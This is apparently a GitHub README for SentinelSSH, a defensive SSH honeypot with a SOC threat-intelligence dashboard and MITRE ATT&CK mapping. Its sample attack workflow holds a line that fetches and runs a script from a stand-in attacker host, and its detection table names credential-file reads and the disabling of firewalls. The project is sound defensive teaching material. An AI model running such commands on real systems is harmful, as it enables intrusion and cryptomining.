





<div align="center">

# SentinelSSH

### Cloud-hosted SSH honeypot with a real-time SOC threat-intelligence dashboard

Capture real-world SSH intrusion attempts, enrich them with geolocation and IP
reputation, classify attacker behaviour against **MITRE ATT&CK**, and visualise
everything on a live security operations dashboard.

[](https://www.python.org/)
[](https://flask.palletsprojects.com/)
[](https://www.postgresql.org/)
[](https://www.docker.com/)
[](https://attack.mitre.org/)
[](#testing)

</div>

---

## Overview

**SentinelSSH** is an end-to-end blue-team project that emulates a vulnerable SSH
server to lure attackers, records every credential and command they attempt, and
turns that raw telemetry into actionable threat intelligence on a real-time
dashboard — the kind of workflow a SOC analyst performs daily.

It demonstrates the full lifecycle: **threat capture → log collection → enrichment
→ risk scoring → MITRE classification → incident correlation → visualisation →
reporting → cloud deployment**.

> **Demo mode** ships realistic seed data so the dashboard is fully populated the
> moment you run `docker compose up` — no waiting for live attacks.

---

## Architecture



**Ingest pipeline (per session):** capture → IP reputation + GeoIP enrichment →
behaviour detection → risk scoring (0–100) → MITRE technique mapping →
incident correlation (group by source IP) → persist → real-time broadcast.

---

## Features

- **SSH honeypot** — Paramiko-based server that accepts any login, presents a
  fake shell, and logs all credentials, commands, and session metadata.
- **Threat enrichment** — GeoIP country lookup and IP reputation/threat-feed
  matching on every source IP.
- **Risk scoring** — weighted 0–100 score per session, bucketed into
  low / medium / high severity.
- **MITRE ATT&CK classification** — behaviour rules map activity to ATT&CK
  technique IDs (e.g. brute force, ingress tool transfer, cryptomining).
- **Incident correlation** — attacks from the same source are grouped into
  triageable incident cards with status tracking.
- **Real-time dashboard** — live KPIs, attack feed, charts, high-risk alerts,
  and system-health indicator via WebSocket (SocketIO).
- **SOC reporting** — Executive, Threat-Activity, and Incident reports exportable
  as **PDF / CSV / JSON**.
- **Authentication** — session-based login protecting the dashboard and API.
- **One-command deployment** — Dockerised stack with health checks and persistent
  volumes; production guide for VPS + Nginx + HTTPS.

---

## Tech Stack

| Layer | Technology |
|-------|------------|
| Honeypot | Python 3.12, Paramiko |
| Backend | Flask, Flask-SocketIO, SQLAlchemy 2.0, Pydantic v2, Alembic |
| Database | PostgreSQL 16 (SQLite for local/dev tests) |
| Threat intel | Custom enrichment, GeoIP2, MITRE ATT&CK catalogue |
| Frontend | Bootstrap 5, Chart.js, vanilla JS modules, dark SOC theme |
| Reporting | ReportLab (PDF), CSV/JSON exporters |
| Infra | Docker, Docker Compose, Nginx, Let's Encrypt, systemd, UFW |

---

## Quick Start (Docker)

```bash
git clone <your-repo-url> sentinelssh && cd sentinelssh
cp .env.docker.example .env          # optional: edit secrets
docker compose up --build
```

- **Dashboard:** http://localhost:8008  (login `admin` / `sentinel123`)
- **Honeypot SSH:** `ssh root@localhost -p 2222`  (try any password)

The backend waits for PostgreSQL, creates the schema, provisions the admin user,
and (in demo mode) seeds realistic attack data automatically.

### Local development (without Docker)

```bash
python -m venv .venv && source .venv/bin/activate
pip install -r backend/requirements.txt -r honeypot/requirements.txt

# Backend (SQLite)
DATABASE_URL="sqlite:///data/sentinelssh.sqlite3" DEMO_MODE=true PORT=8008 \
  python backend/wsgi.py

# Honeypot (separate terminal)
DATABASE_URL="sqlite:///data/sentinelssh.sqlite3" HONEYPOT_PORT=2222 \
  python -m honeypot.server
```

---

## Deployment

Production deployment to an **Ubuntu 24.04 VPS** (Hetzner / DigitalOcean) is fully
documented in **[docs/DEPLOYMENT.md](docs/DEPLOYMENT.md)**, covering:

- VPS provisioning · domain/DNS configuration
- Nginx reverse proxy + WebSocket support
- HTTPS via Let's Encrypt (auto-renewing)
- UFW firewall (honeypot owns `:22`, admin SSH relocated)
- systemd service for boot persistence
- Docker update workflow · PostgreSQL backup strategy
- Security hardening checklist

Supporting configs live in [`deploy/`](deploy/): `nginx/sentinelssh.conf`,
`systemd/sentinelssh.service`, `backup.sh`.

---

## Dashboard Screenshots

| Live SOC Dashboard | Attack Analytics |
|---|---|
|  |  |

| Incident Detail | Command Monitoring |
|---|---|
|  |  |

---

## Project Structure

```
sentinelssh/
├── honeypot/             # Paramiko SSH server + capture pipeline sink
│   ├── server.py         # entry point: SSH listener + session lifecycle
│   ├── session_handler.py
│   ├── pipeline_sink.py   # bridges captures into the core intel pipeline
│   └── realtime_publisher.py
├── core/                 # shared, framework-agnostic domain + intel engine
│   ├── db.py             # SQLAlchemy engine/session, cross-dialect types
│   ├── pipeline.py       # ingest pipeline (enrich→score→classify→correlate)
│   ├── models/           # attack, command, incident, user ORM models
│   └── intel/            # enrichment, reputation, risk, behavior, mitre, incidents
├── backend/              # Flask REST API + SocketIO + static dashboard host
│   ├── app/
│   │   ├── api/          # attacks, incidents, stats, search, reports, realtime, system, auth
│   │   ├── services/     # business logic (attacks, incidents, stats, system)
│   │   ├── repositories/ # SQLAlchemy query layer
│   │   ├── reports/      # PDF / CSV / JSON report builders
│   │   ├── auth/         # Flask-Login security + routes
│   │   └── demo_data.py  # realistic seed data for demo mode
│   ├── wsgi.py
│   └── entrypoint.sh     # waits for DB, migrates, creates admin, launches
├── frontend/             # dashboard UI (Bootstrap 5, Chart.js, JS modules)
├── deploy/               # nginx, systemd, backup script, threat feed sample
├── docs/                 # API.md, DEPLOYMENT.md, PORTFOLIO.md, screenshots/
├── docker-compose.yml    # honeypot + backend + postgres, volumes, health checks
└── .env.docker.example
```

---

## API Overview

Base URL `/api`, consistent `{ success, data, meta }` envelope. Full reference in
**[docs/API.md](docs/API.md)**.

| Endpoint | Purpose |
|----------|---------|
| `GET /api/stats` | Dashboard KPIs (totals, unique IPs, top country/technique, 24h) |
| `GET /api/attacks` | Paginated, filterable, sortable attack sessions |
| `GET /api/attacks/<id>` | Session detail incl. commands, behaviours, MITRE |
| `GET /api/recent` · `GET /api/high-risk` | Live feed / high-severity sessions |
| `GET /api/incidents` · `/incidents/<id>` | Correlated incident cards + detail |
| `GET /api/mitre` · `/behaviors` | Top ATT&CK techniques / behaviour tags |
| `GET /api/top-usernames` · `/top-passwords` · `/top-countries` | Credential & geo aggregations |
| `GET /api/risk-distribution` | Severity histograms for charts |
| `GET /api/search` | Free-text search across IP / creds / country / session |
| `GET /api/reports/{executive,threats,incidents}?format=pdf\|csv\|json` | SOC reports |

Real-time events over SocketIO: `new_attack`, `stats_update`, `incident_update`.

---

## SOC Analyst Showcase

SentinelSSH was built to exercise the day-to-day skill set of a Tier 1/2 SOC
analyst:

- **Threat monitoring** — a live operations dashboard with KPIs, an attack feed,
  and a high-risk alerts panel surfacing the most dangerous sessions first.
- **Log analysis** — every session is parsed into structured credentials,
  commands, and metadata; free-text and field search support hunting.
- **Credential analysis** — top attempted usernames/passwords reveal the
  dictionaries and default-credential lists adversaries are using.
- **Threat intelligence enrichment** — GeoIP and IP-reputation context turns a
  bare IP into an attributable, prioritisable indicator.
- **Incident triage** — sessions are correlated into incidents with severity and
  status (`open → triaged → closed`) for case management.
- **Attack-trend analysis** — attacks-per-hour, technique frequency, and country
  breakdowns expose campaigns and spikes.
- **Security reporting** — generate stakeholder-ready Executive, Threat-Activity,
  and Incident reports in PDF/CSV/JSON.

See **[docs/SOC_SHOWCASE.md](docs/SOC_SHOWCASE.md)** for worked examples: threat
hunts, an incident-investigation workflow, MITRE ATT&CK analysis, credential and
attack-source trends, sample incident writeups, and a findings summary.

---

## MITRE ATT&CK Integration

Attacker activity is mapped to a curated catalogue of SSH-relevant ATT&CK
techniques. Behaviour rules inspect credentials and commands and attach technique
IDs that flow through to incidents, the dashboard, and reports.

| Behaviour detected | ATT&CK technique | Tactic |
|--------------------|------------------|--------|
| Repeated auth attempts | `T1110 / T1110.001` Brute Force / Password Guessing | Credential Access |
| Default/common credentials | `T1078` Valid Accounts | Defense Evasion |
| Any post-auth shell activity | `T1021.004` Remote Services: SSH | Lateral Movement |
| `wget`/`curl`/`scp` payload pull | `T1105` Ingress Tool Transfer | Command & Control |
| `chmod +x` / script execution | `T1059` Command & Scripting Interpreter | Execution |
| `uname` / `/proc/cpuinfo` recon | `T1082` System Information Discovery | Discovery |
| `whoami` / `id` | `T1033` System Owner/User Discovery | Discovery |
| `/etc/passwd` · `/etc/shadow` | `T1087` Account Discovery | Discovery |
| `authorized_keys` write | `T1098.004` SSH Authorized Keys | Persistence |
| `crontab` / `/etc/cron` | `T1053.003` Scheduled Task: Cron | Persistence |
| `xmrig` / `stratum+tcp` | `T1496` Resource Hijacking | Impact |
| `iptables -F` / `setenforce 0` | `T1562.001` Impair Defenses | Defense Evasion |

Each technique resolves to its full name, tactic, and a link to
`attack.mitre.org`.

---

## Sample Attack Workflow

A typical malicious session captured by SentinelSSH:

1. **Recon & brute force** — an automated scanner hits `:22` and tries
   `root:123456`, `admin:admin`, … → behaviour `brute_force` (`T1110`).
2. **Foothold** — a guess "succeeds" (the honeypot always accepts) → the attacker
   lands in the fake shell → `post_auth_activity` (`T1021.004`).
3. **Discovery** — runs `uname -a`, `whoami`, `cat /etc/passwd`
   → `T1082`, `T1033`, `T1087`.
4. **Payload delivery** — `wget http://evil.host/x.sh; chmod +x x.sh; ./x.sh`
   → `T1105`, `T1059`.
5. **Impact** — launches `xmrig` against a mining pool → `T1496` Resource
   Hijacking.

SentinelSSH then: enriches the IP (country + reputation) → computes a **high**
risk score → maps the techniques above → correlates the session into an incident
→ pushes a `new_attack` + `incident_update` event so the analyst sees it live →
makes it available in the Threat-Activity report.

---

## Testing

```bash
.venv/bin/python -m pytest backend/tests -q
```

27 tests cover the REST API, authentication, real-time events, and report
generation (PDF/CSV/JSON).

---

## License

Released for educational and portfolio purposes. Deploy honeypots only on
infrastructure you own and are authorised to operate.
